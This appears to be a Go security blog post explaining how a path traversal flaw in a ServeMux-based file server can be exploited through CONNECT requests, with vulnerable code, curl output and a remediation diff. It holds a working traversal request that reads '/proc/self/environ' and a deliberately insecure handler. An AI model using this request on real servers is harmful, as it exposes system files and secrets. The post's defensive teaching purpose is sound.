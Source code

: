 ```yaml
---
title: ServeMux and a path traversal vulnerability
date: 2020-04-14
tags:
 - go
 - web-security
 - path-traversal
url: /blog/servemux-and-path-traversal
ShowReadingTime: true
---
```


As a passionate Go developer, I've come to appreciate the language's simplicity
and power. However, even in a well-designed language like Go, security
vulnerabilities can lurk in unexpected places. In this post, we'll explore a
common misconception about Go's `ServeMux` that can lead to a path traversal
vulnerability.

> **TL;DR:** Many developers assume that `ServeMux` always sanitizes URL request
paths, but this isn't *always* the case.

# The Issue

Consider the following code snippet, where we let the user read the files
content in `/tmp` folder:
```go
package main

import (
	"io/ioutil"
	"log"
	"net/http"
	"path/filepath"
	"strings"
)

const root = "/tmp"

func main() {
	mux := http.NewServeMux()
	mux.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		filename := filepath.Join(root, strings.Trim(r.URL.Path, "/"))
		contents, err := ioutil.ReadFile(filename)
		if err != nil {
			w.WriteHeader(http.StatusNotFound)
			return
		}
		w.Write(contents)
	})

	server := &http.Server{
		Addr:    "127.0.0.1:50000",
		Handler: mux,
	}

	log.Fatal(server.ListenAndServe())
}
```

Here we are creating a file in `/tmp` folder to test if we will be able to read
the file contents:
```sh
$ echo content > /tmp/somefile
$ curl -v 127.0.0.1:50000/somefile
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 50000 (#0)
> GET /somefile HTTP/1.1
> Host: 127.0.0.1:50000
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Wed, 18 Jul 2018 18:08:46 GMT
< Content-Length: 8
< Content-Type: text/plain; charset=utf-8
< 
content
* Connection #0 to host 127.0.0.1 left intact
```

We've successfully read the file.

Since we call `ioutil.ReadFile` function for a user-supplied input
`r.URL.Path` this might seem like a path traversal vulnerability.

Are we able to read any arbitrary file by
providing relative-path pattern? Let's try to read `../../etc/hostname` for
example:
```sh
$ curl -v --path-as-is 127.0.0.1:50000/somefile/../../etc/hostname
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 50000 (#0)
> GET /something/../../../etc/hostname HTTP/1.1
> Host: 127.0.0.1:50000
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 301 Moved Permanently
< Content-Type: text/html; charset=utf-8
< Location: /etc/hostname
< Date: Wed, 18 Jul 2018 18:07:35 GMT
< Content-Length: 48
< 
<a href="/etc/hostname">Moved Permanently</a>.

* Connection #0 to host 127.0.0.1 left intact
```

It turns out that `ServeMux` canonicalizes the requested path, so it's not
easily exploitable, but indeed it's still vulnerable.

Here's how we can exploit it using the `CONNECT` method:
```sh
$ curl -v -X CONNECT --path-as-is 127.0.0.1:50000/../../proc/self/environ
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 50000 (#0)
> CONNECT /../../proc/self/environ HTTP/1.1
> Host: 127.0.0.1:50000
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Wed, 18 Jul 2018 18:17:55 GMT
< Content-Type: application/octet-stream
< Transfer-Encoding: chunked
< 
REDACTED
```

Bingo.

I should note that this is an expected behaviour and
[clearly documented](https://golang.org/pkg/net/http/#ServeMux.Handler)
in the `net/http` package docs:
> The path and host are used unchanged for CONNECT requests.

# Remediation

Use `filepath.FromSlash` accompanied by `path.Clean` and a [preceding forward slash](https://twitter.com/raphsutti/status/1248871606291542016/photo/1):
```diff
$ diff --git a/main.go b/main.go
index d50e6f3..91e5015 100644
--- a/main.go
+++ b/main.go
@@ -4,6 +4,7 @@ import (
        "io/ioutil"
        "log"
        "net/http"
+       "path"
        "path/filepath"
        "strings"
 )
@@ -13,7 +14,7 @@ const root = "/tmp"
 func main() {
        mux := http.NewServeMux()
        mux.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
-               filename := filepath.Join(root, strings.Trim(r.URL.Path, "/"))
+               filename := filepath.Join(root, filepath.FromSlash(path.Clean("/"+strings.Trim(r.URL.Path, "/"))))
                contents, err := ioutil.ReadFile(filename)
                if err != nil {
                        w.WriteHeader(http.StatusNotFound)
```


Also, it's a good practice to limit acceptable request methods.

If you're not able to fix the code - put a vulnerable service behind a reverse proxy like nginx, which does not allow `CONNECT` method request by default.
